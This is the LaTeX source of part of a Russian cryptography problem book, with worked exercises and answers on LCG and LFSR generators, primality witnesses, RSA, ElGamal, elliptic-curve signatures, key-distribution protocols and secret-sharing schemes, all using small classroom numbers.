	\item из системы уравнений находим $a = 467$ и $c = 223$;
	\item используя найденные значения, находим следующие элементы последовательности;
	\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
		\item $x_{3} = a x_{2} + c \mod m = 467 \cdot 139 + 223 \mod 499 = 266$;
		\item $x_{4} = a x_{3} + c \mod m = 467 \cdot 266 + 223 \mod 499 = 194$.
	\end{itemize}
\end{itemize}
\medbreak
\textbf{Ответ:} 266, 194.
\bigbreak

\tasknumber Приведите \emph{предыдущие} 5 бит выхода генератора псевдослучайной последовательности, основанного на регистре сдвига с линейной обратной связью, если известно, что характеристический полином регистра — $m\left(x\right)=x^{5} + x^{3} + 1$ (см. рис.), а дальнейшая последовательность такова: $1,1,0,1,0,1$.
\begin{center}
	\begin{tikzpicture}[scale=0.05]
		\draw[black,very thick] (30,30) -- (30,40) -- (40,40) -- (40,30) -- (30,30) -- (30,40);
		\draw[black,thick] (35,40) -- (35,50) -- (35,50) -- (37.5,50);
		\draw[black,very thick] (40,30) -- (40,40) -- (50,40) -- (50,30) -- (40,30) -- (40,40);
		\draw[black,very thick] (50,30) -- (50,40) -- (60,40) -- (60,30) -- (50,30) -- (50,40);
		\draw[black,thick] (55,40) -- (55,47.5);
		\draw[black,thick] (53.5,46) -- (55,47.5) -- (56.5,46);
		\draw[black,thick] (37.5,50) -- (52.5,50);
		\draw[black,thick] (51,51.5) -- (52.5,50) -- (51,48.5);
		\draw (55,50) circle [radius=2.5];
		\draw[black] (52.5,50) -- (57.5,50);
		\draw[black] (55,47.5) -- (55,52.5);
		\draw[black,very thick] (60,30) -- (60,40) -- (70,40) -- (70,30) -- (60,30) -- (60,40);
		\draw[black,very thick] (70,30) -- (70,40) -- (80,40) -- (80,30) -- (70,30) -- (70,40);
		\draw[black,thick] (57.5,50) -- (85,50) -- (85,35) -- (80,35);
		\draw[black,thick] (82.5,36.5) -- (80,35) -- (82.5,33.5);
		\draw[black,thick] (30,35) -- (15,35);
		\draw[black,thick] (20,30) -- (15,35) -- (20,40);
	\end{tikzpicture}
\end{center}
\medbreak
\textbf{Решение.}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item Из коэффициентов многочлена $m\left(x\right)$ получаем формулу предыдущего элемента:
		\[ m\left(x\right) = \sum\limits_{i = 5 \dots 1} {a_i x^i } + 1 = x^{5} + x^{3} + 1; \]
		\[ b_0 = a_5 b_5 \oplus \dots \oplus a_1 b_1 = b_{5} \oplus b_{3}.\]
		Это формула бита, который на следующей итерации станет битом $b_1$, то есть значение функции обратной связи регистра;
	\item $b_5 = b_0\oplus b_{3}$ -- формула выходного бита, если известны остальные биты и значение функции обратной связи;
	\item За счёт последних 5 бит выхода восстанавливаем состояние регистра $\overrightarrow{s_{1}}=\left(b_{1},b_{2},b_{3},b_{4},b_{5}\right) = \left(1,0,1,0,1\right)$. Далее начинаем отматывать время назад.
	\item $\overrightarrow{s_{1}}=\left(1,0,1,0,1\right)$. $\overrightarrow {s_{0}} = \left(0,1,0,1,? \right)$ и $b_0 = 1$. \\
		$b_5 = b_0\oplus b_{3}=1 \oplus 0=1$. $\overrightarrow{s_{0}}=\left(0,1,0,1,1\right)$. \\
		Выход — 1;
	\item $\overrightarrow{s_{0}}=\left(0,1,0,1,1\right)$. $\overrightarrow {s_{-1}} = \left(0,1,1,0,? \right)$ и $b_0 = 0$. \\
		$b_5 = b_0\oplus b_{3}=0 \oplus 1=1$. $\overrightarrow{s_{-1}}=\left(1,0,1,1,1\right)$. \\
		Выход — 1;
	\item $\overrightarrow{s_{-1}}=\left(1,0,1,1,1\right)$. $\overrightarrow {s_{-2}} = \left(0,1,1,1,? \right)$ и $b_0 = 1$. \\
		$b_5 = b_0\oplus b_{3}=1 \oplus 1=0$. $\overrightarrow{s_{-2}}=\left(0,1,1,1,0\right)$. \\
		Выход — 0;
	\item $\overrightarrow{s_{-2}}=\left(0,1,1,1,0\right)$. $\overrightarrow {s_{-3}} = \left(0,0,1,1,? \right)$ и $b_0 = 0$. \\
		$b_5 = b_0\oplus b_{3}=0 \oplus 1=1$. $\overrightarrow{s_{-3}}=\left(1,1,1,0,1\right)$. \\
		Выход — 1;
	\item $\overrightarrow{s_{-3}}=\left(1,1,1,0,1\right)$. $\overrightarrow {s_{-4}} = \left(0,1,0,1,? \right)$ и $b_0 = 1$. \\
		$b_5 = b_0\oplus b_{3}=1 \oplus 0=1$. $\overrightarrow{s_{-4}}=\left(1,1,0,1,1\right)$. \\
		Выход — 1;
	\item $\overrightarrow{s_{-4}}=\left(1,1,0,1,1\right)$. $\overrightarrow {s_{-5}} = \left(0,1,1,0,? \right)$ и $b_0 = 1$. \\
		$b_5 = b_0\oplus b_{3}=1 \oplus 1=0$. $\overrightarrow{s_{-5}}=\left(1,0,1,1,0\right)$. \\
		Выход — 0;
	\item Ответ (в порядке выдачи бит генератором): $0,1,1,0,1$.
	\item Краткое оформление второй части задачи можно увидеть в таблице~\ref{table:task-lfsr-1-short-solution}. Таблица заполняется снизу вверх (так как нам нужны предыдущие биты, а не следующие). Самая последняя строка таблицы соответствует последнему известному состоянию регистра -- последним 5 битам последовательности. Столбцы таблицы связаны формулой $b_{5} \oplus b_{3} = b_0 $. Ответ находится в первых 5 элементах первого столбца. Последние 1 элемента соответствуют вспомогательным битам, данным в решении (первые 1 в последовательности бит из условия).
	\begin{table}[!thb]
		\centering
		\begin{tabular}{ l | c || c c c c c|| c }
		 & & $b_{5}$& $b_{4}$& $b_{3}$& $b_{2}$& $b_{1}$ & $b_0$ \\
		  \hline
		  $\overrightarrow {s_{-5}}$ & 0 & 0 & 1 & 1 & 0 & 1& 1 \\
		  $\overrightarrow {s_{-4}}$ & 1 & 1 & 1 & 0 & 1 & 1& 1 \\
		  $\overrightarrow {s_{-3}}$ & 1 & 1 & 0 & 1 & 1 & 1& 0 \\
		  $\overrightarrow {s_{-2}}$ & 0 & 0 & 1 & 1 & 1 & 0& 1 \\
		  $\overrightarrow {s_{-1}}$ & 1 & 1 & 1 & 1 & 0 & 1& 0 \\
		  $\overrightarrow {s_{0}}$ & 1 & 1 & 1 & 0 & 1 & 0& 1 \\
		  $\overrightarrow {s_{1}}$ & 1 & 1 & 0 & 1 & 0 & 1& \cdot \\
		\hline
		\end{tabular}
		\caption{Краткое оформление решения задачи №~\arabic{task-section}.\arabic{task-number} в виде таблицы}
		\label{table:task-lfsr-1-short-solution}
	\end{table}
\end{itemize}
\medbreak
\textbf{Ответ:} $0, 1, 1, 0, 1$.
\bigbreak

\tasknumber Укажите характеристический полином и приведите следующие 5 бит выхода генератора псевдослучайной последовательности, основанного на регистре сдвига с линейной обратной связью, если известно, что степень характеристического полинома регистра -- $m\left(x\right)$ -- равна 5, а предыдущая последовательность такова: $0,1,0,0,1,1,0,0,0,0,1$. Порядок бит в последовательности соответствует порядку их генерации РСЛОС.
\medbreak
\textbf{Решение.}
\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
	\item Каждый бит выходной последовательности есть функция 5 предыдущих выходных бит вида $b_0 = f\left( b_{5} \dots b_1 \right) $. В данных обозначениях $b_{5}$ является наиболее ранним битом, а $b_1$ -- последним, который сгенерировал РСЛОС непосредственно перед генерацией бита $b_0$.  Вид функции задаётся характеристическим многочленом, который и нужно найти.
	\[\begin{array}{l}
		m \left( x \right) = x^{5} +  a_{4} x^{4} + a_{3} x^{3} + a_{2} x^{2} + a_{1} x^{1} +1; \\
		b_{5} \oplus a_{4} b_{4} \oplus a_{3} b_{3} \oplus a_{2} b_{2} \oplus a_{1} b_{1} = b_0. \\
	\end{array}\]
	\[\begin{array}{l}
		f\left(0,1,0,0,1\right) = 1, \\
		f\left(0,1,0,0,1\right) = 1, \\
		f\left(1,0,0,1,1\right) = 0, \\
		f\left(0,0,1,1,0\right) = 0, \\
		f\left(0,1,1,0,0\right) = 0, \\
		f\left(1,1,0,0,0\right) = 0, \\
		f\left(1,0,0,0,0\right) = 1. \\
	\end{array}\]
	\item Это приводит к системе уравнений:
	\[\left\{ {\begin{array}{*{20}c}
		f\left(0,1,0,0,1\right) = 0 \oplus \left( a_{4} \cdot 1\right) \oplus \left( a_{3} \cdot 0\right) \oplus \left( a_{2} \cdot 0\right) \oplus \left( a_{1} \cdot 1\right) = 1 \\
		f\left(1,0,0,1,1\right) = 1 \oplus \left( a_{4} \cdot 0\right) \oplus \left( a_{3} \cdot 0\right) \oplus \left( a_{2} \cdot 1\right) \oplus \left( a_{1} \cdot 1\right) = 0 \\
		f\left(0,0,1,1,0\right) = 0 \oplus \left( a_{4} \cdot 0\right) \oplus \left( a_{3} \cdot 1\right) \oplus \left( a_{2} \cdot 1\right) \oplus \left( a_{1} \cdot 0\right) = 0 \\
		f\left(0,1,1,0,0\right) = 0 \oplus \left( a_{4} \cdot 1\right) \oplus \left( a_{3} \cdot 1\right) \oplus \left( a_{2} \cdot 0\right) \oplus \left( a_{1} \cdot 0\right) = 0 \\
		f\left(1,1,0,0,0\right) = 1 \oplus \left( a_{4} \cdot 1\right) \oplus \left( a_{3} \cdot 0\right) \oplus \left( a_{2} \cdot 0\right) \oplus \left( a_{1} \cdot 0\right) = 0 \\
		f\left(1,0,0,0,0\right) = 1 \oplus \left( a_{4} \cdot 0\right) \oplus \left( a_{3} \cdot 0\right) \oplus \left( a_{2} \cdot 0\right) \oplus \left( a_{1} \cdot 0\right) = 1 \\
	\end{array} } \right.\]
	\[\left\{ {\begin{array}{*{20}l}
		a_{4} \oplus a_{1} = 1 \\
		a_{2} \oplus a_{1} = 1 \\
		a_{3} \oplus a_{2} = 0 \\
		a_{4} \oplus a_{3} = 0 \\
		a_{4} = 1 \\
	\end{array} } \right.\]
	\item Найденные из системы уравнения коэффициенты $\left(a_{4}, a_{3}, a_{2}, a_{1}\right) = \left(1 , 1 , 1 , 0\right)$.
	\item Характеристический полином регистра:
		\[\begin{array}{l}
			m \left( x \right) = x^{5}+ a_{4} x^{4}+ a_{3} x^{3}+ a_{2} x^{2}+ a_{1} x^{1} + 1; \\
			m = x^{5} + x^{4} + x^{3} + x^{2} + 1. \\
		\end{array}\]
	\item Схема РСЛОС приведена на рисунке.
	\begin{center}
		\begin{tikzpicture}[scale=0.05]
			\draw[black,very thick] (30,30) -- (30,40) -- (40,40) -- (40,30) -- (30,30) -- (30,40);
			\draw[black,thick] (35,40) -- (35,50) -- (35,50) -- (37.5,50);
			\draw[black,very thick] (40,30) -- (40,40) -- (50,40) -- (50,30) -- (40,30) -- (40,40);
			\draw[black,thick] (45,40) -- (45,47.5);
			\draw[black,thick] (43.5,46) -- (45,47.5) -- (46.5,46);
			\draw[black,thick] (37.5,50) -- (42.5,50);
			\draw[black,thick] (41,51.5) -- (42.5,50) -- (41,48.5);
			\draw (45,50) circle [radius=2.5];
			\draw[black] (42.5,50) -- (47.5,50);
			\draw[black] (45,47.5) -- (45,52.5);
			\draw[black,very thick] (50,30) -- (50,40) -- (60,40) -- (60,30) -- (50,30) -- (50,40);
			\draw[black,thick] (55,40) -- (55,47.5);
			\draw[black,thick] (53.5,46) -- (55,47.5) -- (56.5,46);
			\draw[black,thick] (47.5,50) -- (52.5,50);
			\draw[black,thick] (51,51.5) -- (52.5,50) -- (51,48.5);
			\draw (55,50) circle [radius=2.5];
			\draw[black] (52.5,50) -- (57.5,50);
			\draw[black] (55,47.5) -- (55,52.5);
			\draw[black,very thick] (60,30) -- (60,40) -- (70,40) -- (70,30) -- (60,30) -- (60,40);
			\draw[black,thick] (65,40) -- (65,47.5);
			\draw[black,thick] (63.5,46) -- (65,47.5) -- (66.5,46);
			\draw[black,thick] (57.5,50) -- (62.5,50);
			\draw[black,thick] (61,51.5) -- (62.5,50) -- (61,48.5);
			\draw (65,50) circle [radius=2.5];
			\draw[black] (62.5,50) -- (67.5,50);
			\draw[black] (65,47.5) -- (65,52.5);
			\draw[black,very thick] (70,30) -- (70,40) -- (80,40) -- (80,30) -- (70,30) -- (70,40);
			\draw[black,thick] (67.5,50) -- (85,50) -- (85,35) -- (80,35);
			\draw[black,thick] (82.5,36.5) -- (80,35) -- (82.5,33.5);
			\draw[black,thick] (30,35) -- (15,35);
			\draw[black,thick] (20,30) -- (15,35) -- (20,40);
		\end{tikzpicture}
	\end{center}
	\item Теперь, когда характеристический полином известен, восстанавливаем состояния регистра по последним 5 выходам:
	\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,0,0,0,1\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 0 \oplus 0 \oplus 0=0$. Следующее состояние $\left(0,0,0,1,0\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,0,0,1,0\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 0 \oplus 0 \oplus 1=1$. Следующее состояние $\left(0,0,1,0,1\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,0,1,0,1\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 0 \oplus 1 \oplus 0=1$. Следующее состояние $\left(0,1,0,1,1\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,1,0,1,1\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 1 \oplus 0 \oplus 1=0$. Следующее состояние $\left(1,0,1,1,0\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(1,0,1,1,0\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=1 \oplus 0 \oplus 1 \oplus 1=1$. Следующее состояние $\left(0,1,1,0,1\right)$, а текущий выход $b_{5}=1$.
	\end{itemize}
	\item Следующие итерации, дающие нужный ответ:
	\begin{itemize}\itemsep1pt \parskip0pt \parsep0pt
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,1,1,0,1\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 1 \oplus 1 \oplus 0=0$. Следующее состояние $\left(1,1,0,1,0\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(1,1,0,1,0\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=1 \oplus 1 \oplus 0 \oplus 1=1$. Следующее состояние $\left(1,0,1,0,1\right)$, а текущий выход $b_{5}=1$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(1,0,1,0,1\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=1 \oplus 0 \oplus 1 \oplus 0=0$. Следующее состояние $\left(0,1,0,1,0\right)$, а текущий выход $b_{5}=1$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(0,1,0,1,0\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=0 \oplus 1 \oplus 0 \oplus 1=0$. Следующее состояние $\left(1,0,1,0,0\right)$, а текущий выход $b_{5}=0$.
		\item $\left(b_{5},b_{4},b_{3},b_{2},b_{1}\right) = \left(1,0,1,0,0\right)$. Сумма: $b_0 = b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2}=1 \oplus 0 \oplus 1 \oplus 0=0$. Следующее состояние $\left(0,1,0,0,0\right)$, а текущий выход $b_{5}=1$.
		\end{itemize}
	\item Итого ответ на вторую часть задачи: $0,1,1,0,1$.
	\item Краткое оформление второй части задачи можно увидеть в таблице~\ref{table:task-lfsr-2-short-solution}. Таблица заполняется сверху вниз. Столбцы таблицы связаны формулой $b_{5} \oplus b_{4} \oplus b_{3} \oplus b_{2} = b_0 $. В первой строке записаны первые 5 бит полученной последовательности. Выполняя последовательно операции над регистром мы получим все следующие биты. Начать заполнение таблицы можно со строчки $\overrightarrow s_{6}$ (то есть с последних 5 бит, данных в условии задачи), строки выше приведены для возможности (само)контроля студента. Ответом являются последние 5 бит в первом столбце.
	\begin{table}[!thb]
		\centering
		\begin{tabular}{ l | c || c c c c c|| c }
		 & & $b_{5}$& $b_{4}$& $b_{3}$& $b_{2}$& $b_{1}$ & $b_0$ \\
		  \hline
		  $\overrightarrow {s_{0}}$ & 0 & 0 & 1 & 0 & 0 & 1& 1 \\
		  \hline
		  $\overrightarrow {s_{1}}$ & 1 & 1 & 0 & 0 & 1 & 1& 0 \\
		  $\overrightarrow {s_{2}}$ & 0 & 0 & 0 & 1 & 1 & 0& 0 \\
		  $\overrightarrow {s_{3}}$ & 0 & 0 & 1 & 1 & 0 & 0& 0 \\
		  $\overrightarrow {s_{4}}$ & 1 & 1 & 1 & 0 & 0 & 0& 0 \\
		  $\overrightarrow {s_{5}}$ & 1 & 1 & 0 & 0 & 0 & 0& 1 \\
		  \hline
		  $\overrightarrow {s_{6}}$ & 0 & 0 & 0 & 0 & 0 & 1& 0 \\
		  $\overrightarrow {s_{7}}$ & 0 & 0 & 0 & 0 & 1 & 0& 1 \\
		  $\overrightarrow {s_{8}}$ & 0 & 0 & 0 & 1 & 0 & 1& 1 \\
		  $\overrightarrow {s_{9}}$ & 0 & 0 & 1 & 0 & 1 & 1& 0 \\
		  $\overrightarrow {s_{10}}$ & 1 & 1 & 0 & 1 & 1 & 0& 1 \\
		  \hline
		  $\overrightarrow {s_{11}}$ & 0 & 0 & 1 & 1 & 0 & 1& 0 \\
		  $\overrightarrow {s_{12}}$ & 1 & 1 & 1 & 0 & 1 & 0& 1 \\
		  $\overrightarrow {s_{13}}$ & 1 & 1 & 0 & 1 & 0 & 1& 0 \\
		  $\overrightarrow {s_{14}}$ & 0 & 0 & 1 & 0 & 1 & 0& 0 \\
		  $\overrightarrow {s_{15}}$ & 1 & 1 & 0 & 1 & 0 & 0& 0 \\
		\hline
		\end{tabular}
		\caption{Краткое оформление решения второй части задачи №~\arabic{task-section}.\arabic{task-number} в виде таблицы}
		\label{table:task-lfsr-2-short-solution}
	\end{table}
\end{itemize}
\medbreak
\textbf{Ответ:} полином $m \left( x \right) = x^{5} + x^{4} + x^{3} + x^{2} + 1$; дальнейшая последовательность: $0,1,1,0,1$

\section{Псевдопростые числа}
\tasksection

\tasknumber Проверить, являются ли числа 73, 95 свидетелями простоты числа 111 по Ферма.
\medbreak
\textbf{Ответ:} да; нет.
\bigbreak

\tasknumber Проверить, являются ли числа 74, 448, 640, 660, 719 свидетелями простоты числа 793 по Миллеру.
\medbreak
\textbf{Ответ:} да; да; нет; нет; да.
\bigbreak

\section{Криптосистема RSA}
\tasksection

\tasknumber Зашифровать сообщение по схеме RSA. Открытый ключ: $n = 323$; $e = 245$. Сообщение: $m = 307$.
\medbreak
\textbf{Ответ:} $c = 86$.
\bigbreak

\tasknumber Расшифровать сообщение по схеме RSA. Для генерации пары открытого и секретного ключа использовались числа: $p = 13$; $q = 17$. Открытая экспонента: $e = 91$. Зашифрованное сообщение: $c = 196$.
\medbreak
\textbf{Ответ:} $d = 19$; $m = 66$.
\bigbreak

\tasknumber Расшифровать сообщение по схеме RSA. Открытый ключ: $n = 85$; $e = 15$. Зашифрованное сообщение: $c = 32$.
\medbreak
\textbf{Ответ:} $p = 5$; $q = 17$; $d = 47$; $m = 8$.
\bigbreak

\tasknumber Подписать сообщение по схеме RSA. Закрытый ключ: $n = 437$; $d = 181$. Сообщение: $m = 84$.
\medbreak
\textbf{Ответ:} $s = 122$.
\bigbreak

\tasknumber Подписать сообщение по схеме RSA. Открытый ключ: $n = 253$; $e = 159$. Сообщение: $m = 193$.
\medbreak
\textbf{Ответ:} $n = 11 \cdot 23$; $d = 119$; $s = 2$.

\section{Криптосистема Эль-Гамаля}
\tasksection

\tasknumber Зашифровать сообщение по схеме Эль-Гамаля. Открытый ключ: $p = 29$; $g = 10$; $y = 8$. Секретный ключ: $x = 5$. Сообщение: $M = 4$. Использовать следующий случайный параметр для шифрования: $k = 5$.
\medbreak
\textbf{Ответ:} $c = (a; b) = (8; 21)$.
\bigbreak

\tasknumber Расшифровать сообщение по схеме Эль-Гамаля. Открытый ключ: $p = 23$; $g = 5$; $y = 9$. Секретный ключ: $x = 10$. Зашифрованное сообщение: $\left( 10, 18\right)$.
\medbreak
\textbf{Ответ:} $m = 4$.
\bigbreak

\tasknumber Расшифровать сообщение по схеме Эль-Гамаля. Открытый ключ: $p = 29$; $g = 15$; $y = 28$. Зашифрованное сообщение: $\left( 10, 23\right)$.
\medbreak
\textbf{Ответ:} $x = 14$; $m = 6$.
\bigbreak

\tasknumber Проверить подпись по схеме Эль-Гамаля. Открытый ключ: $p = 29$; $g = 14$; $y = 7$. Сообщение: $m = 7$. Подпись: $a = 19$;  $b = 19$.
\medbreak
\textbf{Ответ:} $12 = 12$.
\bigbreak

\tasknumber Подписать сообщение по схеме Эль-Гамаля. Открытый ключ: $p = 23$; $g = 20$; $y = 17$. Сообщение: $m = 4$. Использовать следующий случайный параметр для создания подписи: $k = 7$.
\medbreak
\textbf{Ответ:} $x = 19$; $s = (a; b) = (21; 19)$.
\bigbreak

\section{Эллиптические кривые}
\tasksection

\tasknumber Для точки A (8; 6), принадлежащей группе точек эллиптической кривой $y^2 = x^3 - 9x - 13$ над конечным полем $\mathbb{F}_{17}$, найти координаты точек $B = 2 \times A = A + A$ и $C = 3 \times A$ = A + A + A.
\medbreak
\textbf{Ответ:} $(3; 15)$, $(14; 15)$.
\bigbreak

\tasknumber Найти группу точек (перечислить все точки) эллиптической кривой $y^2 = x^3 - 2 x - 10$ над конечным полем $\mathbb{F}_{13}$.
\medbreak
\textbf{Решение:} получение группы точек с помощью таблицы:\\
\begin{tabular}{|r|r|r|r|r|r|r|r|}
\hline
$x$ & $x^2$ & $x^3$ & $-2x$ & $-10$ & $y^2$ & $y_1$, $y_2$ & точки \\ 
\hline
$0$ & $0$ & $0$ & $-0$ & $-10$ & $3$ & $4$,$9$ &$(0; 4)$, $(0; 9)$ \\
$1$ & $1$ & $1$ & $-2$ & $-10$ & $2$ &  --- & --- \\ 
$2$ & $4$ & $8$ & $-4$ & $-10$ & $7$ &  --- & --- \\ 
$3$ & $9$ & $1$ & $-6$ & $-10$ & $11$ &  --- & --- \\ 
$4$ & $3$ & $12$ & $-8$ & $-10$ & $7$ &  --- & --- \\ 
$5$ & $12$ & $8$ & $-10$ & $-10$ & $1$ & $1$,$12$ &$(5; 1)$, $(5; 12)$ \\ 
$6$ & $10$ & $8$ & $-12$ & $-10$ & $12$ & $5$,$8$ &$(6; 5)$, $(6; 8)$ \\ 
$7$ & $10$ & $5$ & $-1$ & $-10$ & $7$ &  --- & --- \\ 
$8$ & $12$ & $5$ & $-3$ & $-10$ & $5$ &  --- & --- \\ 
$9$ & $3$ & $1$ & $-5$ & $-10$ & $12$ & $5$,$8$ &$(9; 5)$, $(9; 8)$ \\ 
$10$ & $9$ & $12$ & $-7$ & $-10$ & $8$ &  --- & --- \\ 
$11$ & $4$ & $5$ & $-9$ & $-10$ & $12$ & $5$,$8$ &$(11; 5)$, $(11; 8)$ \\ 
$12$ & $1$ & $12$ & $-11$ & $-10$ & $4$ & $2$,$11$ &$(12; 2)$, $(12; 11)$ \\ 
\hline
\end{tabular}
\medbreak
\textbf{Ответ.}
\begin{itemize}
\item Точки эллиптической кривой: [(0; 4), (0; 9), (5; 1), (5; 12), (6; 5), (6; 8), (9; 5), (9; 8), (11; 5), (11; 8), (12; 2), (12; 11), 0];
\item Размер группы точек: $13$.
\end{itemize}
\bigbreak

\tasknumber Для точки $\left(6; 9\right)$ определить, является ли она генератором всей группы точек кривой $y^2 = x^3 - 10 x - 7$ над конечным полем $\mathbb{F}_{17}$ или подгруппы. Перечислить точки генерируемой подгруппы (группы).
\medbreak
\textbf{Ответ:} точка $\left(6; 9\right)$ — генератор подгруппы размера 4: [(6; 9), (4; 0), (6; 8), 0].
\bigbreak

\tasknumber Вычислить электронную подпись сообщения $m=5$ по схеме ГОСТ Р 34.10-2012. Кривая $y^2 = x^3 - 3 x - 8$ над конечным полем $\mathbb{F}_{11}$. В качестве генератора используется точка G$\left(0; 5\right)$, размер циклической подгруппы -- $16$. Открытый ключ отправителя сообщения Q$\left(10; 4\right)$. Для генерации ЭП использовать случайный параметр $k=3$.
\medbreak
\textbf{Решение}
\begin{itemize}
\item Используя формулу $Q = d \times G$, перебором находим, что $d = 5$.
\item $C = k \times G = 3 \times \left(0; 5\right) = \left(6; 5\right)$.
\item $r = x_C \bmod q = 6 \bmod 16 = 6$.
\item $e = m \bmod q = 5 \bmod 16 = 5$.
\item $s = ( r d + k e ) \bmod q = ( 6 \cdot 5 + 3 \cdot 5 ) \bmod 16 = 13$.
\end{itemize}
\medbreak
\textbf{Ответ:} подпись: $(x_c, s) = (6, 13)$.
\bigbreak

\section{Протоколы распространения ключей}
\tasksection

\tasknumber Алиса и Боб участвуют в группе распределения ключей по схеме Блома с модулем $p = 11$. Алисе выдан идентификатор $\overrightarrow{(5; 7)}$ и соответствующий ему закрытый ключ $\overrightarrow{(5; 8)}$. Вычислите общий сеансовый ключ Алисы и Боба, если открытый ключ Боба $\overrightarrow{(4; 3)}$. Найдите секретную матрицу доверенного центра, если известно, что закрытый ключ Боба -- $\overrightarrow{(1; 4)}$.
\medbreak
\textbf{Ответ:} $s = 0$. $\left( {\begin{array}{*{20}c}
   7 & 2  \\
   2 & 6  \\
\end{array}} \right)$ -- секретная матрица доверенного центра.
\bigbreak

\tasknumber Сгенерировать секретный сеансовый ключ для Алисы и Боба по протоколу Диффи~---~Хеллмана\index{протокол!Диффи~---~Хеллмана}. Общие параметры схемы: генератор 14 и модуль 17. Открытые ключи Алисы и Боба равны 8 и 5 соответственно.
\medbreak
\textbf{Решение и ответ:}
\begin{itemize}
\item Закрытый ключ Алисы: $a = \log_{g} A \bmod p = \log_{14} 8 \bmod 17 = 10$
\item Закрытый ключ Боба: $b = \log_{g} B \bmod p = \log_{14} 5 \bmod 17 = 13$
\item Генерация Алисой: $s = {B}^{a} \bmod p  = {5}^{10} \bmod 17 = 9$
\item Генерация Бобом: $s = {A}^{b} \bmod p  = {8}^{13} \bmod 17 = 9$
\end{itemize}

\section{Разделение секрета}
\tasksection

\tasknumber При разделении секрета по $(k, n)$-пороговой векторной схеме\index{схема!векторная} (схеме Блэкли\index{схема!Блэкли}) с модулем $p = 11$ получены 4 следа: $\left( {8,1,4} \right)$, $\left( {9,8,10} \right)$, $\left( {4,2,1} \right)$, $\left( {4,7,5} \right)$. Восстановите исходную точку и секрет, если известно, что это первая координата (x) точки.
\medbreak
\textbf{Ответ:} $M = 4$
\bigbreak

\tasknumber Секрет был разделён по $(3, n)$-пороговой схеме Шамира\index{схема!Шамира} с модулем $p=11$. Известны четыре следа -- $\left( {3,9} \right)$, $\left( {4,9} \right)$, $\left( {5,10} \right)$, $\left( {6,1} \right)$. Восстановить оптимальным способом исходный многочлен и секрет.
\medbreak
\textbf{Ответ:} Исходный многочлен: $F\left( x \right) = ax^2  + bx + M = 6x^2  + 2x + 4$. Секретом является последний свободный многочлен $M = 4$.
\bigbreak

\tasknumber Используя эллиптическую кривую $y^2 = x^3 - 1x - 7$ над конечным полем $\mathbb{F}_{11}$, генератор $G(0; 2)$ и открытый ключ Боба $K_B(10; 9)$, Алиса сгенерировала разделяемый секрет (по схеме ECIES\index{схема!ECIES}) $S=P_x$ для последующего использования в качестве ключа шифрования и передала Бобу соответствующий секрету след $R(9; 8)$. Найдите секрет $S$, если закрытый ключ Боба $k_B = 6$.
\medbreak
\textbf{Ответ:} $P_x = 5$


\printindex

\chapter*{Литература}
\addcontentsline{toc}{chapter}{Литература}
\begingroup
\renewcommand{\chapter}[2]{}%
%\bibliographystyle{ugost2008s}
%\bibliography{bibliography}
\printbibliography
\endgroup

\end{document}
